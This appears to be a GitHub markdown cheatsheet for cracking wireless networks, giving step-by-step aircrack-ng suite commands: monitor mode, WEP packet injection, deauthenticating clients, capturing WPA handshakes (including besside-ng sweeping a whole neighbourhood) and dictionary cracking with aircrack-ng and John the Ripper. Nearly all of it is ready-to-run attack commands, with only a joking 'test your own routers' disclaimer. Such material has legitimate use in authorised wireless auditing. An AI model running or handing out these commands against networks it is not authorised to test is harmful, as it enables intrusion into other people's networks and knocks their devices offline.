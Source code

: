 # Wifi

Here are some cheatsheets about wireless cracking. Easy stuff (just for
testing your own routers :P ).

## Common

First you have to put your interface in monitor mode:

```
airmon-ng # list interfaces
airmon-ng start wlan0 # this will create a mon0 interface which should be able to inject
```

Then, get the info of your router (and adjacents) with `airodump-ng mon0`.

When you get yours (should be WEP for this attack), note down ESSID, BSSID and Channel.

Now focus the sniff in your router:

```
airodump-ng -a --ivs -w out --channel <channel> --bssid <bssid> mon0
```

This will create an `out.cap` file and it will write only interesting packages (ivs).

## WEP

You can use my tool [wepcrackeator](https://github.com/serginator/unix-tools).
It's really easy to use and will guide you and launch the commands for you.

If you want to know what you are doing, then here are the commands.

First execute what's in [Common](#common) section.

Now we need to associate with the router, execute the following:

```
aireplay-ng -1 6000 -o 1 -q 10 --ignore-negative-one -a <bssid> -h <mymac> mon0
```

Once associated, we are going to use the p0841 injection attack:

```
aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b <bssid> -h <mymac> --ignore-negative-one mon0
```

If you want to deauthenticate a client to get packages, use the following command:

```
aireplay-ng -0 5 -a <bssid> --ignore-negative-one mon0
```

And now you should be getting data for start the cracking process, if not maybe
you need to use other attack like ChopChop or fragmentation, just execute
`aireplay-ng --help` and see the other attacks, mayble a simple ARP injection
could do the trick.

Now launch aircrack-ng and let it cracking while getting data from the router:

```
aircrack-ng -a 1 out.cap
```

It will launch the cracking process when it gets more ivs, so just wait for it.

## WPA

WPA keys can be obtained using dictionaries (or bruteforce) against handshakes.

### Getting handshakes using airodump-ng and aireplay-ng

First execute what's in [Common](#common) section.

Now we need a client to connect to the router. Connect your phone or other device
and you'll see the handshake on top of airodump-ng. If not, try to deauthenticate
a random client using aireplay-ng:

```
aireplay-ng -0 5 -a <bssid> mon0
```

or force a client to deauthenticate with:

```
aireplay-ng -0 5 -a <bssid> -c <client> mon0
```  

Once you get the handshake you can stop airodump-ng and start cracking it.

### Getting handshakes using besside-ng

Like in the previous method, first put your interface in monitor mode:

```
airmon-ng # lists interfaces
airmon-ng start wlan0 # this will create a mon0 interface which should be able to inject
```

Then, to scan the whole neigborhood (not recommended) use the following command:

```
besside-ng -W -vv mon0
```

To scan an specific bssid (your router) use:

```
besside-ng -W -c <channel> -b <bssid> -vv <interface>
```

Both commands will create a file wpa.cap where you have executed the command.
This file will contain only handshakes, so you can crack it once you get it.
The command will scan the router and try to deauthenticate clients to get the
handshake, so it will automate the airodump-ng/aireplay-ng commands.

### Cracking the handshake

Just use `aircrack-ng` for the task:

```
aircrack-ng -w <dict-file> <cap-file>
# where cap-file is out.cap in first example or wpa.cap in the second one
```

If there are several handshakes of several routers, it will ask which one. You
can force it at the beginning adding `-b <bssid>` in the aircrack-ng command.

If you need to be able to pause aircrack-ng and resume it later you'll need to
make use of `John the Ripper` tool.

You should launch the cracking process with this command:

```
john --session=wpa --stdout --wordlist=<dict-file> | aircrack-ng -w - -b <bssid> wpa.cap
```

To pause it just hit Ctrl+c once.

To restore it, use the following command:

```
john --restore=wpa | aircrack-ng -w - -b <bssid> wpa.cap
```

